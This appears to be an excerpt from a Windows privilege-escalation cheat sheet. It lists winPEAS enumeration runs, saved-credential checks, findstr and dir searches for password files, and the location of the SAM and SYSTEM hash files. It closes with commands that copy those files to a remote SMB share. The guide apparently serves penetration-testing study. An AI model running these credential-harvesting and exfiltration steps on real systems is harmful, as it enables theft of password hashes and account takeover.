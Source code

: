 ```cmd
 .\winPEASany.exe quiet filesinfo userinfo
  
```
Windows runas commands allows users to execute commands as a different user if you have their password.
However, Windows also allows users to save passwords on the systems allowing the user to bypass this argument.

```cmd 
 savecred.bat
 cmdkey /list
```

### Configuration files

Some admins will leave config files on the system with passwords in them. eg Unattend.xml file

Recursively search for files in the current directory with
“pass” in the name, or ending in “.config”:

```cmd
 dir /s *pass* == *.config
```

Recursively search for files in the current directory that
contain the word “password” and also end in either .xml, .ini,
or .txt:
```cmd
 findstr /si password *.xml *.ini *.txt
```

Using win peas

```cmd
 .\winPEASany.exe quiet cmd searchfast filesinfo

```
### SAM

Windows stores password hashes in the Security Account Manager(SAM)
The hashes are encrypted with a key which can be found in a file called *System* (kind of a db)

SAM and SYSTEM files are located in the following location. They are locked when windows is running

***
     C:\Windows\System32\config 
***

Backup of these files. 

***
    C:\Windows\repair\SAM
    C:\Windows\repair\SYSTEM
***


```cmd
 copy C:\Windows\Repair\SYSTEM \\192.168.158.146\tools 
 copy C:\Windows\Repair\SAM \\192.168.158.146\tools 

```

